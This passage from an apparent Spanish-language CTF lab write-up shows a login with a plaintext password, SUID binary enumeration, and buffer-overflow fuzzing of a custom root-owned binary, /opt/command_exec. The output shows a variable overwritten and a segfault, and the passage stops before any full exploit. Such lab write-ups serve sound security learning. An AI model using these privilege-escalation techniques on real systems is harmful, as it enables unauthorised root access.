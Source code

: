 Metemos como contraseña `llv6ox3lx300` y veremos que estamos dentro.

## Escalate Privileges

Si vemos los permisos `SUID` que tenemos...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2127509     16 -rwsr-xr-x   1 root     root        16328 Dec 19 10:22 /opt/command_exec
  2105130    640 -rwsr-xr-x   1 root     root       653888 Jun 22  2024 /usr/lib/openssh/ssh-keysign
  2097658     52 -rwsr-xr-x   1 root     root        52880 Mar 23  2023 /usr/bin/chsh
  2097782     48 -rwsr-xr-x   1 root     root        48896 Mar 23  2023 /usr/bin/newgrp
  2097793     68 -rwsr-xr-x   1 root     root        68248 Mar 23  2023 /usr/bin/passwd
  2097845     72 -rwsr-xr-x   1 root     root        72000 Oct 18 12:56 /usr/bin/su
  2097719     88 -rwsr-xr-x   1 root     root        88496 Mar 23  2023 /usr/bin/gpasswd
  2097777     60 -rwsr-xr-x   1 root     root        59704 Oct 18 12:56 /usr/bin/mount
  2097869     36 -rwsr-xr-x   1 root     root        35128 Oct 18 12:56 /usr/bin/umount
  2097652     64 -rwsr-xr-x   1 root     root        62672 Mar 23  2023 /usr/bin/chfn
```

Podremos ver uno interesante en el `/opt`:

```
2127509   16 -rwsr-xr-x   1 root  root  16328 Dec 19 10:22 /opt/command_exec
```

Vemos que si ejecutamos el binario:

```shell
./command_exec
```

Info:

```
Escribe la contraseña: bob 
Estás en modo usuario (key = 1234)
key debe valer 0xdead para entrar al modo administrador
```

Veremos que aparentemente no hace nada en especial, pero vamos a ver si es vulnerable a un `Buffer Overflow`:

```shell
./command_exec
```

Info:

```
Escribe la contraseña: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
Estás en modo usuario (key = 63413563)
key debe valer 0xdead para entrar al modo administrador
zsh: segmentation fault  ./command_exec
```
